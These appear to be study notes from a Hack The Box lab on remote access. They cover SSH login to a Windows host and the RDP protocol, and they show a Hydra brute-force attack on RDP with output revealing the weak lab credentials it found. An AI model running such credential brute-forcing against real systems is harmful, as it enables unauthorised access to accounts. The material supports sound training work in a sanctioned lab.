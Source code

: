 - In order to log in to the system  via ssh protocol we can openssh client which is available by default on most Linux distributions

```shell-session
00818@htb[/htb]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

## Remote desktop Protocol
- Microsofts Remote Desktop protocol AKA `RDP` is a netework protocol that allows remote access to Windows systems via TCP port 3389 by default
- RDP provides both users and admins supportds staff with remote access to WIndows hosts withing an organization
- The The RDP is jsut a two way participant for a connection like a so called terminal server
- The terminal server is remotely controlled where is which the actual work takes place 
- The RDP can also print documents from the terminal server on printer when connected tot he terminal client or allow access to the storage media
- So in other words the RDP is an application layer protocol  in the IP stack and can sue the TCP and the UDP for data transmission
- This is ues by many various offical Microsoft apps, but it is also used in some thir-party solutions

## Hydra RDP
- We can also use Hydra to perform RPD bruteforcing 
```Shell-session
00818@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
